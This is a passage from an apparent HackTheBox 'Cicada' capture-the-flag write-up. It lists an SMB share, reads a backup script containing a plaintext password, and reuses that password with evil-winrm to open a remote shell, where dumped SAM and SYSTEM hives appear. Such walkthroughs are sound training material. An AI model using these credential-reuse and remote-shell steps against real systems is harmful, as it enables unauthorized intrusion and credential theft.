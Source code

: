 With a new user to try, let's see if we have access to the dev share.
```
┌──(oriol㉿zero)-[~]
└─$ smbclient -U "cicada.htb\david.orelious" \\\\10.10.11.35\\DEV

Password for [CICADA.HTB\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Mar 14 13:31:39 2024
  ..                                  D        0  Thu Mar 14 13:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 19:28:22 2024

                4168447 blocks of size 4096. 237670 blocks available
smb: \> 
```
Yes, we have access to it, lets inspect the powershell script
```
┌──(oriol㉿zero)-[~]
└─$ cat Backup_script.ps1                                                                       

$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```
There is a plain text password for a the emily.oscars user. As this user can perform backups, the best thing to assume is that it has some special kind of privileges.

This is a good time to try evil-winrm with Emily's user and see if we can have a shell on the server.
```
┌──(oriol㉿zero)-[~]
└─$ evil-winrm -i cicada.htb -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> dir


    Directory: C:\Users\emily.oscars.CICADA\Documents


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         11/8/2024   8:40 PM          49152 sam
-a----         11/8/2024   8:40 PM       18518016 system
```
